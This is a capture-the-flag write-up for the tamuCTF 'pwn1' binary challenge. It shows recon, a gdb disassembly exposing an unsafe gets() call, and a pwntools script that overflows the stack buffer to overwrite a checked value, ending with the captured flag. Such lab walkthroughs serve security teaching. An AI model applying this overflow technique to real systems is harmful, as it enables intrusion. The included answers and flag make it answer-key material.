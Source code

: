 # tamuCTF: pwn

## pwn1
#### Assumeably the easiest among the pwn challenges, I started the approach by running some simple recon with the *checksec* utility from pwntools:
```
$ checksec pwn1
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
#### So we know we're dealing with a 32-bit binary with the following security measures added. *Add explanation*. Running the binary, we get the prompt:
```
$ ./pwn1
   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see. 
   What... is your name?
```
#### Given the prompt and disassembly from gdb, I deduced that there is a string check for these questions. So what I did was use the command line utility *strings* on the binary and I got answers for the first two questions:
```
$ strings pwn1
   [...]
   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
   What... is your name?
   Sir Lancelot of Camelot
   I don't know that! Auuuuuuuugh!
   What... is your quest?
   To seek the Holy Grail.
   What... is my secret?
   [...]
```
#### We now passed the first two questions, leaving us with only one more whose answer isn't shown up on strings or anywhere else. Fired up gdb-peda and disassembled the binary to have a deeper look into it. Disassembling the main function results into:
```
$ gdb ./pwn1
   gdb-peda$ disas main
   Dump of assembler code for function main:
      0x00000779 <+0>:	    lea    ecx,[esp+0x4]
      0x0000077d <+4>:	    and    esp,0xfffffff0
      0x00000780 <+7>:	    push   DWORD PTR [ecx-0x4]
      0x00000783 <+10>:	    push   ebp
      0x00000784 <+11>:	    mov    ebp,esp
      0x00000786 <+13>:	    push   ebx
      0x00000787 <+14>:	    push   ecx
      0x00000788 <+15>:	    sub    esp,0x40
      0x0000078b <+18>:	    call   0x600 <__x86.get_pc_thunk.bx>
      0x00000790 <+23>:	    add    ebx,0x1820
      0x00000796 <+29>:	    mov    eax,DWORD PTR [ebx+0x44]
      0x0000079c <+35>:	    mov    eax,DWORD PTR [eax]
      0x0000079e <+37>:	    push   0x0
      0x000007a0 <+39>:	    push   0x0
      0x000007a2 <+41>:	    push   0x2
      0x000007a4 <+43>:	    push   eax
      0x000007a5 <+44>:	    call   0x580 <setvbuf@plt>
      0x000007aa <+49>:	    add    esp,0x10
      0x000007ad <+52>:	    mov    DWORD PTR [ebp-0xc],0x2
      0x000007b4 <+59>:	    mov    DWORD PTR [ebp-0x10],0x0
      0x000007bb <+66>:	    sub    esp,0xc
      0x000007be <+69>:	    lea    eax,[ebx-0x1620]
      0x000007c4 <+75>:	    push   eax
      0x000007c5 <+76>:	    call   0x550 <puts@plt>
      0x000007ca <+81>:	    add    esp,0x10
      0x000007cd <+84>:	    sub    esp,0xc
      0x000007d0 <+87>:	    lea    eax,[ebx-0x15b5]
      0x000007d6 <+93>:	    push   eax
      0x000007d7 <+94>:	    call   0x550 <puts@plt>
      0x000007dc <+99>:	    add    esp,0x10
      0x000007df <+102>:	mov    eax,DWORD PTR [ebx+0x40]
      0x000007e5 <+108>:	mov    eax,DWORD PTR [eax]
      0x000007e7 <+110>:	sub    esp,0x4
      0x000007ea <+113>:	push   eax
      0x000007eb <+114>:	push   0x2b
      0x000007ed <+116>:	lea    eax,[ebp-0x3b]
      0x000007f0 <+119>:	push   eax
      0x000007f1 <+120>:	call   0x530 <fgets@plt>
      0x000007f6 <+125>:	add    esp,0x10
      0x000007f9 <+128>:	sub    esp,0x8
      0x000007fc <+131>:	lea    eax,[ebx-0x159f]
      0x00000802 <+137>:	push   eax
      0x00000803 <+138>:	lea    eax,[ebp-0x3b]
      0x00000806 <+141>:	push   eax
      0x00000807 <+142>:	call   0x510 <strcmp@plt>
      0x0000080c <+147>:	add    esp,0x10
      0x0000080f <+150>:	test   eax,eax
      0x00000811 <+152>:	je     0x82f <main+182>
      0x00000813 <+154>:	sub    esp,0xc
      0x00000816 <+157>:	lea    eax,[ebx-0x1584]
      0x0000081c <+163>:	push   eax
      0x0000081d <+164>:	call   0x550 <puts@plt>
      0x00000822 <+169>:	add    esp,0x10
      0x00000825 <+172>:	sub    esp,0xc
      0x00000828 <+175>:	push   0x0
      0x0000082a <+177>:	call   0x560 <exit@plt>
      0x0000082f <+182>:	sub    esp,0xc
      0x00000832 <+185>:	lea    eax,[ebx-0x1564]
      0x00000838 <+191>:	push   eax
      0x00000839 <+192>:	call   0x550 <puts@plt>
      0x0000083e <+197>:	add    esp,0x10
      0x00000841 <+200>:	mov    eax,DWORD PTR [ebx+0x40]
      0x00000847 <+206>:	mov    eax,DWORD PTR [eax]
      0x00000849 <+208>:	sub    esp,0x4
      0x0000084c <+211>:	push   eax
      0x0000084d <+212>:	push   0x2b
      0x0000084f <+214>:	lea    eax,[ebp-0x3b]
      0x00000852 <+217>:	push   eax
      0x00000853 <+218>:	call   0x530 <fgets@plt>
      0x00000858 <+223>:	add    esp,0x10
      0x0000085b <+226>:	sub    esp,0x8
      0x0000085e <+229>:	lea    eax,[ebx-0x154d]
      0x00000864 <+235>:	push   eax
      0x00000865 <+236>:	lea    eax,[ebp-0x3b]
      0x00000868 <+239>:	push   eax
      0x00000869 <+240>:	call   0x510 <strcmp@plt>
      0x0000086e <+245>:	add    esp,0x10
      0x00000871 <+248>:	test   eax,eax
      0x00000873 <+250>:	je     0x891 <main+280>
      0x00000875 <+252>:	sub    esp,0xc
      0x00000878 <+255>:	lea    eax,[ebx-0x1584]
      0x0000087e <+261>:	push   eax
      0x0000087f <+262>:	call   0x550 <puts@plt>
      0x00000884 <+267>:	add    esp,0x10
      0x00000887 <+270>:	sub    esp,0xc
      0x0000088a <+273>:	push   0x0
      0x0000088c <+275>:	call   0x560 <exit@plt>
      0x00000891 <+280>:	sub    esp,0xc
      0x00000894 <+283>:	lea    eax,[ebx-0x1534]
      0x0000089a <+289>:	push   eax
      0x0000089b <+290>:	call   0x550 <puts@plt>
      0x000008a0 <+295>:	add    esp,0x10
      0x000008a3 <+298>:	sub    esp,0xc
      0x000008a6 <+301>:	lea    eax,[ebp-0x3b]
      0x000008a9 <+304>:	push   eax
      0x000008aa <+305>:	call   0x520 <gets@plt>
      0x000008af <+310>:	add    esp,0x10
      0x000008b2 <+313>:	cmp    DWORD PTR [ebp-0x10],0xdea110c8
      0x000008b9 <+320>:	jne    0x8c2 <main+329>
      0x000008bb <+322>:	call   0x6fd <print_flag>
      0x000008c0 <+327>:	jmp    0x8d4 <main+347>
      0x000008c2 <+329>:	sub    esp,0xc
      0x000008c5 <+332>:	lea    eax,[ebx-0x1584]
      0x000008cb <+338>:	push   eax
      0x000008cc <+339>:	call   0x550 <puts@plt>
      0x000008d1 <+344>:	add    esp,0x10
      0x000008d4 <+347>:	mov    eax,0x0
      0x000008d9 <+352>:	lea    esp,[ebp-0x8]
      0x000008dc <+355>:	pop    ecx
      0x000008dd <+356>:	pop    ebx
      0x000008de <+357>:	pop    ebp
      0x000008df <+358>:	lea    esp,[ecx-0x4]
      0x000008e2 <+361>:	ret    
   End of assembler dump.
```
#### We see that the prompts for the first two questions get user input via fgets, which is a quite secure way of getting user input. But the third question at address ```0x0000089b``` uses a gets() call for input, which is vulnerable to buffer overflow attacks. It is also important to note that the program also checks if the answer for the third question is equal to ```0xdea110c8``` before it proceeds to the ```print_flag``` function. So the exploit method for this challenge will be a buffer overflow into controlling an argument. But before we head that, we do a deeper analysis of the code block that happens before and after the gets call. 
```
      0x000008a0 <+295>:	add    esp,0x10
      0x000008a3 <+298>:	sub    esp,0xc
      0x000008a6 <+301>:	lea    eax,[ebp-0x3b]
      0x000008a9 <+304>:	push   eax
      0x000008aa <+305>:	call   0x520 <gets@plt>
      0x000008af <+310>:	add    esp,0x10
      0x000008b2 <+313>:	cmp    DWORD PTR [ebp-0x10],0xdea110c8
```
#### What this does is allocates space on the stack for some variables, which is the array buffer in this case, and pushes a pointer to ```[ebp-0x3b]``` , which is the address for the array buffer, on the stack. After the gets call, a compare instruction is done at address ```[ebp-0x10]``` if the contents is in fact equal to ```0xdea110c8```. So it becomes clearer that we have to overwrite the contents of ```[ebp-0x3b]``` to ```[ebp-0x10]```, which has a difference of 43 which is the offset we need to overflow the buffer. And we proceed with the exploitation.
#### exploit.py
```python
   from pwn import *

   #: Connect to challenge server
   HOST = 'pwn.tamuctf.com'
   PORT = 4321
   conn = remote(HOST,PORT)

   #: Exploit code
   offset = 'A' * 43
   secret = p32(0xdea110c8)
   exploit = offset + secret

   #: Send data
   print(conn.recv())
   conn.sendline('Sir Lancelot of Camelot')
   print(conn.recv())
   conn.sendline('To seek the Holy Grail.')
   print(conn.recv())
   conn.sendline(exploit)
   print(conn.recv())
   print(conn.recv())
```
#### And we then get the flag! 
```
$ python exploit.py

   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
   What... is your name?

   What... is your quest?

   What... is my secret?

   Right. Off you go.
   gigem{34sy_CC428ECD75A0D392}
```

